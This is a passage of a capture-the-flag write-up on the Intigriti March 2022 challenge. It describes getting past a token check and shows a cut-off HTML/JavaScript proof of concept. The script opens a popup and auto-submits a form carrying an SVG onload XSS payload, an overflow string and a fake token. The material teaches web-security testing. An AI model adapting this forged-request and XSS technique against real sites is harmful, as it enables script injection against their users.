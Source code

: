 I know that the correct length is 64 characters, judging by the length of an original token taken from the page. When I enter a token with incorrect length I get an “Invalid token!” response.

![invalid token](/assets/images/intigriti/2022/03/invalid-token.png)

Ok now back to the fake website.. I now execute my payload and get the following result:

![again missing csrf token](/assets/images/intigriti/2022/03/missing-csrf-token.png)

WHAT? Oh there is a mention about sending at least one request from the gui. Ok I think I can automate that as well…

Soo, I made a quick script which pops up the sender page, closes is and then makes the post request. It doesn’t work on the first try for some reason, so I made it reload after each attempt, no matter if it’s successful or not. I also made a 5 second interval between the sender page and the POST request, just to make sure that the sender page gets loaded properly. In total it should take a minimum of ~11 seconds to trigger the alert. The whole process does not require any user interaction, apart from enabling pop-ups.

```html
<form id="my-form" target="_blank"  method="POST" action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php">
    <input type="text"    id='token'       name="token">
    <input type="text"    id='FirstText'   name="FirstText">
    <input type="text"    id='Hashing'     name="Hashing">
    <input type="submit">
</form>

<script>

    let popup = window.open("https://challenge-0322.intigriti.io/challenge/LoveSender.php", "_blank");
    
    const payload = "<svg onload='alert&lpar;document.domain&rpar;'>";
    const varcharOverflow = "A".repeat(1000);
    const mockToken = 'A'.repeat(64);

    document.getElementById("token").value = mockToken;
    document.getElementById("FirstText").value = payload;
    document.getElementById("Hashing").value = varcharOverflow;

```